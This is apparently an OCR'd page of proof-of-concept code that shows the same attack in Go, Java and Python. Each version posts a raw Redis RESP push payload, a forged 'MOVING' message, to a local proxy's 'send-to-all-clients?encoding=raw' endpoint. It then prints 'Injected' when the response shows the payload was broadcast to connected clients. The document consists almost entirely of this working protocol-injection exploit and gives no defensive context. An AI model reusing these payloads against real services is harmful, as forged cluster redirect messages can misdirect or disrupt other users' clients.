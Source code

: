 **Go Example:**
```go
package main

import (
    "io"
    "net/http"
    "strings"
)

func main() {
    payload := strings.NewReader(">4\r\n$6\r\nMOVING\r\n:1\r\n:2\r\n$6\r\nhost:3\r\n")
    resp, _ := http.Post("http://localhost:3000/send-to-all-clients?encoding=raw", "", payload)
    defer resp.Body.Close()
    
    body, _ := io.ReadAll(resp.Body)
    if strings.Contains(string(body), `"results"`) {
        println("Injected")
    }
}
```

**Java Example:**
```java
import java.net.http.*;
import java.net.URI;

public class RespProxyClient {
    public static void main(String[] args) throws Exception {
        var client = HttpClient.newHttpClient();
        var request = HttpRequest.newBuilder()
            .uri(URI.create("http://localhost:3000/send-to-all-clients?encoding=raw"))
            .POST(HttpRequest.BodyPublishers.ofString(
                ">4\r\n$6\r\nMOVING\r\n:1\r\n:2\r\n$6\r\nhost:3\r\n"))
            .build();

        var response = client.send(request, HttpResponse.BodyHandlers.ofString());

        if (response.body().contains("\"results\"")) {
            System.out.println("Injected");
        }
    }
}
```

**Python Example:**
```python
import json
import urllib.request

data = b">4\r\n$6\r\nMOVING\r\n:1\r\n:2\r\n$6\r\nhost:3\r\n"
req = urllib.request.Request("http://localhost:3000/send-to-all-clients?encoding=raw", data)

with urllib.request.urlopen(req) as response:
    result = json.loads(response.read())
    print("Injected" if len(result["results"]) > 0 else "Failed")
```
